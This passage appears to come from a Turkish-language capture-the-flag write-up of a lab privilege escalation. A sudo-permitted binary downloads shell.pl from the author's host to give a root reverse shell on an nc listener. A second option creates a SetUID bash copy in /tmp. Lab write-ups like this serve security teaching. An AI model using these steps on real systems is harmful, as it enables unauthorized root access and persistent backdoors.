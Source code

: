 Şimdi bunu bir Python web sunucusunda barındırıyorum ve URL'yi buna işaret edecek şekilde `binary`'yi çalıştırıyorum.

```
smorton@investigation:~$ sudo binary 10.10.14.6/shell.pl lDnxUysaQn
Running...
```

Benim sunucumdan alıyor:

```
10.10.11.197 - - [18/Apr/2023 16:07:48] "GET /shell.pl HTTP/1.1" 200 -
```

Ve NC'de bir bağlantı var:

```
oxdf@hacky$ nc -lnvp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.197 40802
# id
uid=0(root) gid=0(root) groups=0(root)
```

Ve root.txt dosyasını okuyabiliyorum:

```
# cd /root
# cat root.txt
e9f2ff77************************
```


#### Bash [Option 2]

Ippsec, bana `perl script.sh` komutunun, script dosyasındaki **shebang** satırını dikkate aldığını belirtti. Yani, eğer `script.sh` dosyası `#!/bin/bash` ile başlıyorsa, **perl** bu komutu **bash**'e iletecek ve bash tarafından çalıştırılmasını sağlayacaktır.

Bu, `shell.sh` adında bir script oluşturarak, **SetUID** özelliğine sahip bir **bash** kopyası yaratabileceğim anlamına geliyor.

```
#!/bin/bash

cp /bin/bash /tmp/0xdf
chmod 4777 /tmp/0xdf
```

Bunu aynı şekilde çalıştırmak işe yarar:

```
smorton@investigation:~$ sudo binary 10.10.14.6/shell.sh lDnxUysaQn
Running... 
smorton@investigation:~$ /tmp/0xdf -p
0xdf-5.0# 
```


#### Race Condition [Option 3]
